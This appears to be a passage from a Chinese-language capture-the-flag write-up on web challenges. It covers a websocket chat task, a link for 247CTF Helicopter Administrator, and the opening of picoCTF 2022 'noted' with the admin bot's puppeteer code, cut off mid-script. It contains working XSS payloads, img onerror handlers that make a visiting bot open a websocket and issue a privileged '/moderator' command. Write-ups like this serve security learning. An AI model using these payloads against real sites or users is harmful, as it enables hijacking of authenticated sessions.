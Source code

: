 继续尝试

```
> websocket.send('/help')
{ "content": "<message>" } to send a message
/moderator to enter moderator mode debugger
> websocket.send('/moderator')
You need to be authenticated to execute this command
```

我们没有直接访问/moderator的权利，借助检测"badwords"的功能，发送含有建立websocket连接的payload，用CSRF的方式让bot访问 把结果外带

```html
<img src=x onerror="ws=new WebSocket('ws://'+window.location.host);ws.onopen=()=>ws.send('/moderator')">
```

加上一个"badwords"

```html
🖕 <img src=x onerror="ws=new WebSocket('ws://'+window.location.host);ws.onopen=()=>ws.send('/moderator')">
```

## *[247CTF 2021]Helicopter Administrator

https://gusralph.info/exploiting-xss-for-sqli/

## [picoCTF 2022]noted

> HINT:
>
> 1. "Are you sure I followed all the best practices?"
> 2. "There's more than just HTTP(S)!"
> 3. "Things that require user interaction normally in Chrome might not require it in Headless Chrome."
> 4. The description also stated that the headless chrome has no internet access. So it cannot be used to phone home outside the context of this application.

登入账号后才能发内容，xss bot会先注册随机账号 登入后发flag 然后浏览我们的url，题目提示xss bot不能出网

```js
// report.js
const crypto = require('crypto');
const puppeteer = require('puppeteer');

async function run(url) {	// 对url无waf
	let browser;

	try {
		module.exports.open = true;
		browser = await puppeteer.launch({
			headless: true,
			pipe: true,
			args: ['--incognito', '--no-sandbox', '--disable-setuid-sandbox'],
			slowMo: 10
		});

		let page = (await browser.pages())[0]

		await page.goto('http://0.0.0.0:8080/register');	// 注册随机账号
		await page.type('[name="username"]', crypto.randomBytes(8).toString('hex'));
		await page.type('[name="password"]', crypto.randomBytes(8).toString('hex'));

		await Promise.all([
			page.click('[type="submit"]'),
			page.waitForNavigation({ waituntil: 'domcontentloaded' })
		]);
```